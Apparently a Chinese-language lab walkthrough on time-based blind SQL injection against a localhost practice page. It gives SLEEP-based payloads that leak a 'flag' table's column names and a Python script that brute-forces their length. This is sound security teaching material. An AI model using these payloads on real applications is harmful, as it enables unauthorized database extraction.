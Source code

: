 ###### 泄露字段名

确定flag表，查询字段名

```sql
0' OR (SELECT 1 FROM (SELECT IF(SUBSTR((SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='flag'),1,1)>'a',SLEEP(1),1)) AS a)#
```

<img src="./IMG3/{B503981C-B86C-4552-BF4E-60FA9B29A787}.png">

```sql
0' OR (SELECT 1 FROM (SELECT IF(SUBSTR((SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='flag'),1,1)>'f',SLEEP(1),1)) AS a)#
```

<img src="./IMG3/{3D4BBE26-CCAB-4D88-8254-6681B5ECF3B0}.png">

**脚本注入**

字段名同样无需考虑大小写问题

```py
import requests
import string

url = 'http://localhost/sql-injection/blind-time.php'
charset = string.ascii_lowercase + string.digits + string.punctuation

table = 'flag'
database = 'test'

# 确定长度
MAX = 50
columnLen = 0
for i in range(1, MAX):
    print(f'正在测试字段长度: {i}')
    payload = f"0' OR (SELECT 1 FROM (SELECT IF(LENGTH((SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA='{database}' AND TABLE_NAME='{table}'))={i},SLEEP(1),1)) AS a)#"
    response = requests.post(url, data={'username': payload})
    if response.elapsed.total_seconds() > 1.0:
        columnLen = i
        break
print(f'>>> 字段名长度为: {columnLen}')
```